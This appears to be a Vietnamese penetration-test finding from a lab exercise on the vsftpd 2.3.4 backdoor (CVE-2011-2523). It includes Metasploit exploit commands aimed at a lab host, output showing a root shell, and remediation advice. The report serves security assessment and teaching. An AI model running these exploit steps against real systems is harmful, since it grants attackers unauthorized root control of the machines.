

# F02 — VSFTPD 2.3.4 Backdoor

**Mức độ:** Critical  
**Target:** `192.168.77.20:21`  
**CVE:** CVE-2011-2523  
**CWE:** CWE-506 — Embedded Malicious Code

## 1. Mô tả

Dịch vụ FTP sử dụng phiên bản vsftpd 2.3.4 chứa backdoor, cho phép thực thi lệnh từ xa mà không cần xác thực.

## 2. Kiểm chứng (PoC)

Sử dụng Metasploit:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.77.20
set RPORT 21
run
```

Sau khi mở được shell, kiểm tra:

```bash
id
whoami
hostname
```

**Kết quả:**

```text
[+] Found shell!
[*] Command shell session 1 opened

uid=0(root) gid=0(root)
root
metasploitable
```

Đã khai thác thành công backdoor và thực thi lệnh từ xa với quyền `root`.

**Screenshot:**



**Evidence:** [F02-vsftpd-metasploit.txt](../evidence/F02-vsftpd-metasploit.txt)

## 3. Tác động

Cho phép kẻ tấn công thực thi lệnh với quyền `root`, dẫn đến nguy cơ kiểm soát toàn bộ hệ thống.

## 4. Khắc phục

- Loại bỏ phiên bản vsftpd chứa backdoor.
- Cài đặt phiên bản an toàn từ nguồn đáng tin cậy và kiểm tra tính toàn vẹn.
- Hạn chế truy cập dịch vụ FTP khi không cần thiết.